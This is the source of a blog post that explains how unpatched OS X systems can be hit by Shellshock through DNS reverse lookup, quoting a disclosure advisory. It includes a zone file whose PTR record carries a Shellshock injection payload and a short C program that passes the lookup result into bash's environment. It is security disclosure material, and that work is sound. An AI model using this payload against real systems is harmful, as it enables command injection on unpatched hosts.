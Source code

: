 ```yaml
---
layout: post
title: "OSX vulnerable to Shellshock through DNS reverse lookup"
description: ""
category: Security
tags: 
- OSX
- ShellShock
- Exploits
---
```

{% include JB/setup %}
*Dirk-Willem van Gulik* has published on [seclists.org](http://seclists.org/fulldisclosure/2014/Oct/53) a document where explains
another attack vector for the famous [Shellshock bug](http://www.andreafortuna.org/tags.html#ShellShock-ref): through a 
reverse lookup in DNS, where the results of this lookup are
passed, unsanitized, to an environment variable (e.g. as part of
a batch process).

![ShellShock](http://static.itpro.co.uk/sites/itpro/files/bash.jpg)

<!-- more -->

>This vector is subtly different from a normal attack vector, as the
attacker can 'sit back' and let a (legitimate) user trigger the
issue; hence keeping the footprint for a IDS or WAAS to act on small.

The vulnerability is fixed by [this patch](http://support.apple.com/kb/DL1769) last September 29: all OSX system without this patch are vulnerable.

How to reproduce this flaw?
---
From [seclist.org](seclists.org](http://seclists.org/fulldisclosure/2014/Oct/53) article:

>A simple zone file; such as:

     $TTL 10;
     $ORIGIN in-addr.arpa.
     @     IN SOA     ns.boem.wleiden.net dirkx.webweaving.org (
                    666        ; serial
                    360 180 3600 1800 ; very short lifespan.
                    )
     IN          NS     127.0.0.1
     *           PTR      "() { :;}; echo CVE-2014-6271, CVE-201407169, RDNS" 

can be used to create an environment in which to test the issue with existing code
or with the following trivial example:

    #include <sys/socket.h>
    #include <netdb.h>
    #include <assert.h>
    #include <arpa/inet.h>
    #include <stdio.h>
    #include <stdlib.h>
    #include <unistd.h>
    #include <netinet/in.h>

    int main(int argc, char ** argv) {
     struct in_addr addr;
     struct sockaddr_in sa;
     char host[1024];

     assert(argc==2);
     assert(inet_aton(argv[1],&addr) == 1);

     sa.sin_family = AF_INET;
     sa.sin_addr = addr;

     assert(0==getnameinfo((struct sockaddr *)&sa, sizeof sa,
          host, sizeof host, NULL, 0, NI_NAMEREQD));

     printf("Lookup result: %s\n\n", host);    

     assert(setenv("REMOTE_HOST",host,1) == 0);
     execl("/bin/bash",NULL);
    }

Other operating systems (e.g. RHEL6, Centos, FreeBSD 7), seem to be  
immune: in their standard configurations *libc/libresolver* and *DNS* are using 
different *escaping mechanisms* (octal v.s. decimal).
